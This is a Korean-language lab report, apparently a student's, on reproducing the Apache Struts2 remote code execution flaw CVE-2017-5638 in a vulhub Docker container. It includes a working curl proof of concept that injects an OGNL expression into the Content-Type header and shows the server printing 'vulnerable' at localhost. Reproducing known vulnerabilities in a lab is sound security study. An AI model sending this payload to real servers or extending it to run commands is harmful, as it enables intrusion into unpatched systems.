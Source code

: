 # CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서

## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

3. 실습 과정

3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

(여기에 [컨테이너 띄운 캡처] 삽입 예정)

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

bash
복사
편집
curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action
(여기에 [PoC 성공 캡처] 삽입 예정)

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

5. 느낀 점
이번 실습을 통해 도커로 취약한 환경을 빠르게 구성하고, 실제 취약점이 어떻게 악용될 수 있는지를 직접 체험할 수 있었다. Struts2처럼 널리 사용되는 프레임워크에서도 입력값 검증이 제대로 안 되면 큰 문제가 발생할 수 있다는 점을 실감했다. 실습을 진행하면서 PoC 과정이 생각보다 간단해서 보안 관리의 중요성을 다시 느꼈다.

6. 참고 자료
Vulhub Struts2 S2-045 환경

CVE-2017-5638 상세정보 - NVD

7. GitHub 레포 링크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045
